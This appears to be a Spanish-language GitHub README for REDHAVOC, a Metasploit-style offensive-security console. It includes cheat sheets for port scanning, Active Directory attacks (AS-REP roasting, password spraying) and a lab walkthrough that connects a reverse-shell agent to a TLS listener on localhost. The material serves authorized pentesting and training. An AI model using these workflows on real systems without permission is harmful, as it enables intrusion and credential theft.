










# REDHAVOC 🔴

[](https://github.com/Ruby570bocadito/REDHAVOC/actions/workflows/ci.yml)

**Red Team Havoc Framework** — consola interactiva de ciberseguridad ofensiva
estilo *Metasploit*, en Python 3 puro, con interfaz [Rich] moderna y profesional, 79 módulos
nativos (12 categorías, incluidas **Active Directory** y **cloud**), **barridos multi-host
estilo NetExec** (RHOSTS: CIDR, rangos, @fichero), **jobs en segundo plano** (`run -j`),
**workspaces múltiples**, persistencia de opciones entre sesiones, AES-256 puro (GPP cpassword),
**generador de PDF puro** para los informes, **plugins desde Git**, relay de phishing de
laboratorio, base de datos de workspace (hosts/creds/**hallazgos**/**notas**), control de
**engagement** con scope y kill-date, mapa **MITRE ATT&CK**, guiones **resource**, export del
workspace a **JSON/CSV/MD/PDF**, reportes JSON/Markdown/HTML/PDF, historial persistente y una
puerta ética integrada con traza consultable (`audit`).

> ⚠️ **Uso exclusivo en entornos AUTORIZADOS**: laboratorios propios,
> pentests con permiso escrito del propietario, formación y CTFs.
> Ver [DISCLAIMER.md](DISCLAIMER.md).

## 📸 Capturas

| | | |
|---|---|---|
|  |  |  |
|  |  |  |
|  |  |  |
|  | | |

*(capturas reales de la consola en un PTY — sin retoques)*

---

## ✨ Características

| | |
|---|---|
| 🖥️ **Consola msf-like** | `search` (filtros `cat:`/`riesgo:`) · `use <n>` · `set`/`setg` · `show options` · `run [-j]` · `jobs` · `back` · `sessions` (`-i`/`-x`/`-k`) · `hosts` · `creds` · `vulns` · `services` · `notes` · `workspace new/use/del` · `plugin` · `consejos` · `export` · `audit` · `resource` |
| 🌐 **Multi-host (NetExec-like)** | La opción `RHOSTS` acepta CIDR (`10.0.0.0/24`), rangos (`10.0.0.1-20`), listas y `@fichero`: el módulo se ejecuta contra cada host con `THREADS` hilos y una línea de resultado por objetivo |
| ⚙️ **Jobs en segundo plano** | `run -j` lanza el módulo como job: `jobs` lista estado/duración/informe, `jobs -k <id>` para entre objetivos, todo auditado |
| 🎨 **UI moderna y profesional** | Cromo neutro con acento frío, banner flat, animación de arranque sutil, spinner con cronómetro, **resultados pintados en la terminal** (tablas/paneles/columnas), árbol de módulos y autocompletado TAB |
| 🧭 **Consejos accionables** | Cada resultado genera *Siguientes pasos* con el comando exacto a ejecutar (playbook integrado); `consejos` resume el plan de batalla del workspace |
| 🧩 **79 módulos nativos** | recon (10) · web (19) · phishing (5) · payloads (3) · post (2) · opsec (3) · osint (13) · iot (3) · brute (4) · dos (1) · **ad (12)** · **cloud (4)** |
| ☁️ **Cloud storage** | S3, Azure Blob y GCS con acceso anónimo (solo lectura): LISTABLE / PROTEGIDO / NO_EXISTE — hallazgo alto automático (T1619) · **planos de control de contenedores**: Kubernetes API, kubelet y Docker API sin credenciales (T1613) |
| 🧾 **Reportes JSON + MD + HTML + PDF** | Cada ejecución genera informe procesable, legible, presentable y **ejecutivo en PDF (generador puro, sin dependencias)**; `export pdf` vuelca el workspace completo |
| 🏛️ **Active Directory** | Kerberos/LDAP/SMB con clientes propios: user enum, AS-REP roast, **kerberoast con crackeo offline**, password spray con canario, **smb_login NTLMv2**, **enum de shares**, enum de SPN, firma SMB, LLMNR pasivo, **GPP cpassword con AES-256 propio**, **RootDSE anónima (DN base y niveles funcionales)** |
| 🗃️ **Workspaces múltiples** | Varios espacios de trabajo (uno por cliente/fase) con su propia DB de hosts/creds/hallazgos/notas; **las opciones `set`/`setg` persisten entre sesiones** (AUTHORIZED nunca se guarda) |
| 🎯 **Engagement con scope** | `engagement load`: alcance (dominios/CIDR), excluidos y kill-date; `run` se BLOQUEA fuera de alcance |
| 🗺️ **MITRE ATT&CK** | Cada módulo declara su técnica; comando `attack` muestra el mapa módulo ↔ técnica |
| 🧾 **Plugins bajo puerta ética** | `plugin install <ruta|URL.git>` con revisión previa obligatoria (AUTHORIZED + REVISADO), registro en caliente y desinstalación — todo auditado |
| 📦 **Sin herramientas externas** | Todo en Python stdlib + `rich` + `requests` (DNS, WHOIS, Kerberos, LDAP, SMB, **RESP de Redis**, **SNMP con ASN.1 BER propio** y PDF hechos a mano) |
| 🗃️ **Workspace DB** | Los módulos rellenan `hosts`, `creds` y `vulns` automáticamente (estilo msf); notas del operador con `notes add`; **export a JSON/CSV/MD/PDF** para el informe del cliente |
| 🛡️ **Ética integrada** | Disclaimer con aceptación persistente, módulos de riesgo alto exigen `AUTHORIZED`, auditoría en `workspace/audit.log` **y consultable en consola con `audit`** |
| 🇪🇸 **En español** | Interfaz, ayuda y documentación en español |

## 🚀 Instalación

Requisitos: **Python 3.9+** (Linux / macOS / WSL / Termux).

```bash
cd REDHAVOC
pip install -r requirements.txt     # rich + requests
python3 redhavoc.py                 # primera vez: acepta el disclaimer (ACEPTO)
```

Ejecución sin avisos de autorización (pentest autorizado):

```bash
REDHAVOC_AUTHORIZED=1 python3 redhavoc.py
```

## 🎮 Primeros pasos (cheat sheet)

```text
redhavoc > help                          # todos los comandos
redhavoc > search subdominios            # busca módulos
redhavoc > use 1                         # carga el #1 de la última búsqueda
redhavoc > show modules                  # catálogo completo por categoría

redhavoc > use recon/ip_info             # carga un módulo
redhavoc (recon/ip_info) > show options  # parámetros disponibles
redhavoc (recon/ip_info) > set TARGET 8.8.8.8
redhavoc (recon/ip_info) > run           # ejecuta + genera informe

redhavoc > set AUTHORIZED true           # habilita módulos de riesgo alto
redhavoc > use post/multi_handler        # listener de shells reversas
redhavoc (post/multi_handler) > setg TIMEOUT 9   # opción GLOBAL sin salir del módulo
redhavoc (post/multi_handler) > run      # Ctrl+C para detener el listener
redhavoc > sessions                      # lista sesiones capturadas
redhavoc > sessions -i 1                 # interactúa con la sesión 1
redhavoc > sessions -x 1 whoami          # comando único sin entrar en la shell
redhavoc > sessions -k all               # ciérralas todas

redhavoc > use recon/port_scanner        # el scanner rellena el workspace
redhavoc (recon/port_scanner) > set TARGET 10.0.0.1
redhavoc (recon/port_scanner) > run
redhavoc > hosts                         # host + puertos descubiertos
redhavoc > services                      # vista plana de servicios/puertos
redhavoc > creds                         # credenciales válidas (módulos brute)

redhavoc > set RHOSTS 10.0.0.0/24        # ¡BARRIDO MULTI-HOST! (módulos con RHOSTS)
redhavoc (recon/port_scanner) > run      # una línea [+] por host · THREADS hilos

redhavoc > run -j                        # job en segundo plano
redhavoc > jobs                          # estado, duración e informe de cada job
redhavoc > jobs -k all                   # para todos (se detienen entre objetivos)

redhavoc > engagement load engagement.json   # alcance + kill-date de la operación
redhavoc > engagement                     # estado del engagement
redhavoc > workspace new cliente-acme     # workspaces múltiples (msf-like)
redhavoc > workspace                      # lista y marca el activo
redhavoc > attack                         # mapa módulos ↔ técnicas MITRE ATT&CK
redhavoc > attack T1110                   # filtra por técnica
redhavoc > plugin list                    # plugins instalados
redhavoc > plugin install ./mi-pack       # pack local o URL .git (con revisión)

redhavoc > search riesgo:alto             # solo módulos de riesgo alto
redhavoc > search cat:ad                  # solo la categoría Active Directory
redhavoc > notes add 'DMZ con red plana'  # cuaderno del operador (persistente)
redhavoc > notes                          # revisa tus notas
redhavoc > export md                      # workspace completo → output/
redhavoc > export pdf                     # … o a PDF ejecutivo
redhavoc > audit                          # traza ética de la operación
redhavoc > exit                           # resumen de la operación al cerrar
```

### Laboratorio rápido de Active Directory

```text
redhavoc > use ad/kerberos_userenum       # enumera usuarios sin autenticarse
redhavoc (ad/kerberos_userenum) > set RHOST 10.0.0.10
redhavoc (ad/kerberos_userenum) > set REINO CORP.LOCAL
redhavoc (ad/kerberos_userenum) > set USUARIOS @templates/wordlists/ad_usuarios.txt
redhavoc (ad/kerberos_userenum) > run

redhavoc > use ad/asreproast              # usuarios sin preauth → hash hashcat 18200
redhavoc > use ad/ldap_enum               # objetos del directorio (bind anónimo/simple)
redhavoc > use ad/spn_enum                # cuentas con SPN (pre-kerberoasting)
redhavoc > use ad/smb_check               # ¿el DC exige firma SMB?
redhavoc > set AUTHORIZED true
redhavoc > use ad/passwd_spray            # spray Kerberos con CANARIO anti-lockout
```
> En un engagement real carga además el scope: `engagement load engagement.json`.
> Plantilla completa en `templates/engagement_ejemplo.json`.

### Laboratorio rápido de post-explotación

Terminal 1 (atacante):

```bash
python3 redhavoc.py
  → set AUTHORIZED true
  → use post/multi_handler
  → run            # TCP plano; añade TLS=true + CERTFILE/KEYFILE para cifrar
```

Terminal 2 (host del laboratorio):

```bash
python3 templates/payloads/agent_shell.py 127.0.0.1 4444          # TCP
python3 templates/payloads/agent_shell.py 127.0.0.1 4444 --tls    # canal cifrado
```

Para TLS del lab genera un certificado autofirmado y apunta las opciones:

```bash
openssl req -x509 -newkey rsa:2048 -nodes -days 365 \
    -subj "/CN=redhavoc-lab" -keyout lab.key -out lab.pem
```

```text
redhavoc (post/multi_handler) > set TLS true
redhavoc (post/multi_handler) > set CERTFILE lab.pem
redhavoc (post/multi_handler) > set KEYFILE lab.key
redhavoc (post/multi_handler) > run
```

De vuelta en REDHAVOC: `sessions` → `sessions -i 1` → escribe comandos →
`background` para volver. Las sesiones capturadas por el handler TLS se
gestionan igual (el descifrado es transparente en la consola).

## 🧩 Módulos incluidos (79)

### 🔎 recon
| Módulo | Descripción | Riesgo |
|---|---|---|
| `recon/ip_info` | Geolocalización, ISP, ASN y PTR de una IP/dominio (ip-api) | bajo |
| `recon/whois_lookup` | WHOIS por socket (IANA → registrador) | bajo |
| `recon/dns_enum` | Registros A/AAAA/MX/NS/TXT/SOA con cliente DNS propio (UDP/53) | bajo |
| `recon/port_scanner` | TCP connect multihilo + banner grabbing · rellena el workspace | medio |
| `recon/subdomain_scan` | Subdominios por resolución DNS de wordlist (120 integradas) | medio |
| `recon/http_headers` | Auditoría de cabeceras de seguridad con puntuación | bajo |
| `recon/ping_sweep` | Hosts vivos en una red CIDR (TCP-ping + ICMP, sin root) | medio |
| `recon/smtp_enum` | Enumeración de buzones SMTP con VRFY/EXPN/RCPT (cliente propio) | medio |
| `recon/redis_enum` | Auditoría de Redis sin auth: INFO, DBSIZE, claves (cliente RESP propio) | medio |
| `recon/snmp_enum` | Consulta SNMP v1/v2c GET/GETNEXT con encoder/decoder ASN.1 BER propio | medio |

### 🌐 web
| Módulo | Descripción | Riesgo |
|---|---|---|
| `web/tech_detect` | Fingerprinting pasivo (server, PHP/Java/Node, React...) | bajo |
| `web/dir_bruteforce` | Rutas ocultas con wordlist (anti-404 falso incluido) | medio |
| `web/cms_detect` | WordPress, Joomla, Drupal, Shopify, Moodle, PrestaShop | medio |
| `web/sqli_scanner` | Detector EDUCATIVO de SQLi por error (no explota) | alto |
| `web/exposed_files` | .git/.env/backups/phpinfo expuestos + robots/sitemap (Argus) | medio |
| `web/cors_scan` | Misconfiguraciones CORS: reflejo de Origin, null, preflight (Argus) | medio |
| `web/waf_detect` | Fingerprinting de WAF (Cloudflare, AWS, ModSecurity, Imperva...) | medio |
| `web/jwt_analyzer` | JWT: alg=none, secretos débiles HS256, exp/nbf, kid sospechoso | bajo |
| `web/cookie_audit` | Cookies: Secure/HttpOnly/SameSite/__Host-/Max-Age | bajo |
